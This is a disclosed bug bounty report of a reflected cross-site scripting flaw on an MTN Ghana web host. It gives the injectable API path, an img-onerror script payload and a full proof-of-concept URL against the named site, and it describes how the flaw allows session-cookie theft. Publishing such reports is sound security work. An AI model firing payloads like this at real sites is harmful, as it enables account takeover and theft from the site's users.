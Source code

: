 # Reflected XSS on mtnhottseat.mtn.com.gh

## Report Details
- **Report ID**: 1069527
- **URL**: https://hackerone.com/reports/1069527
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-01-01T03:55:44.244Z
- **Disclosed**: 2021-05-24T07:38:00.883Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
hello dear

I have found Reflected XSS on mtnhottseat.mtn.com.gh
parameters injectable /api/v2/subscribe/;

my payload "><img src=x onerror=alert(document.domain)>

URL: https://mtnhottseat.mtn.com.gh/api/v2/subscribe/;%22%3E%3Cimg%20src=x%20onerror=alert(document.domain)%3E

{F1140524}

## Impact

Malicious JavaScript has access to all the same objects as the rest of the web page, including access to cookies and local storage, which are often used to store session tokens. If an attacker can obtain a user's session cookie, they can then impersonate that user.

Furthermore, JavaScript can read and make arbitrary modifications to the contents of a page being displayed to a user. Therefore, XSS in conjunction with some clever social engineering opens up a lot of possibilities for an attacker.

## Attachments
- Capture.PNG
